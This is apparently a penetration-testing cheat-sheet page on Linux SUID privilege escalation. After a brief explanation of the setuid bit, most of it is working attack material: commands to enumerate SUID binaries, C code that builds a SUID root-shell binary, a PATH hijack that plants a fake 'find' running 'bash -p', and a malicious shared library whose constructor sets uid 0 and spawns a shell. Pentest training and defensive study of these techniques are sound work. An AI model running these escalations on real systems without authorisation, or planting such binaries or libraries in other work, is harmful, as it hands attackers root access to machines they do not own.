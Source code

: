 # SUID Binaries

## Theory

SUID/Setuid stands for "set user ID upon execution", it is enabled by default in every Linux distributions. If a file with this bit is run, the uid will be changed by the owner one. If the file owner is `root`, the uid will be changed to `root` even if it was executed from user `bob`. SUID bit is represented by an `s`.



{% hint style="info" %}
Some of these techniques also may be used with SUDO scripts and binary
{% endhint %}

## Practice&#x20;

### Misc SUID Binaries

{% tabs %}
{% tab title="Find" %}
We can use this command to find all SUID binaries&#x20;

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -perm -4000 -type f 2>/dev/null
```
{% endtab %}

{% tab title="Create" %}
Here is how to create a SUID binary

```bash
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
```
{% endtab %}

{% tab title="Known Exploits" %}
If you find that a binary have the SUID bits, you can check on [GTFOBins](https://gtfobins.github.io/) for known SUID exploits.
{% endtab %}
{% endtabs %}

### Relative Path Exploit

{% tabs %}
{% tab title="Enumerate" %}
If a **suid** binary executes another command **without specifying the full path.** We can abuse it and get a privilege escalation.

You may use `strings` to spot other binaries calls, or reverse the **suid** binary.

```bash
strings ./the-suid-bin

...
find
...
```
{% endtab %}

{% tab title="Exploit" %}
We can create a malicious executable with the same name as the one called by the **suid** binary.

```bash
echo '/bin/bash -p' > /tmp/find
chmod +x /tmp/find
```

\
Then, set the **PATH** env variable before executing the SUID binary.

```bash
#Sudo with modified PATH
export PATH=/tmp:$PATH 
./the-suid-bin
```
{% endtab %}
{% endtabs %}

### Shared Library Hijacking

{% tabs %}
{% tab title="Enumerate" %}
If you find some binary with **SUID** permissions, you could check if all the **.so** files are **loaded correctly**

```bash
strace the-suid-bin 2>&1 | grep -i -E "open|access|no such file"
```

You also could check if the **SUID** binary is loading a library from a folder **where we can write**:

```bash
# Lets find a SUID using a non-standard library
ldd the-suid-bin
something.so => /lib/x86_64-linux-gnu/something.so

# The SUID also loads libraries from a custom location where we can write
readelf -d the-suid-bin | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

Alternatilvly, you could use the `strings` command to find used shared library
```bash
strings ./the-sudo-bin | grep -i '*.so*'
```
{% endtab %}

{% tab title="Exploit" %}
For example, if you find that the **suid** binary **doesn't** **load correctly** _`/home/user/.config/libcalc.so`_ or that you can overwrite it, you can exploit it.

Write a malicious shared library

```c
//Saved to /home/user/.config/libcalc.c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Compile it

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

Execute the SUID binary

```bash
./SUID-BINARY
```

{% hint style="info" %}
If you get an error such as

```shell-session
./suid_bin: symbol lookup error: ./suid_bin: undefined symbol: a_function_name
```

that means that the library you have generated need to have a function called `a_function_name`.
{% endhint %}
{% endtab %}
{% endtabs %}

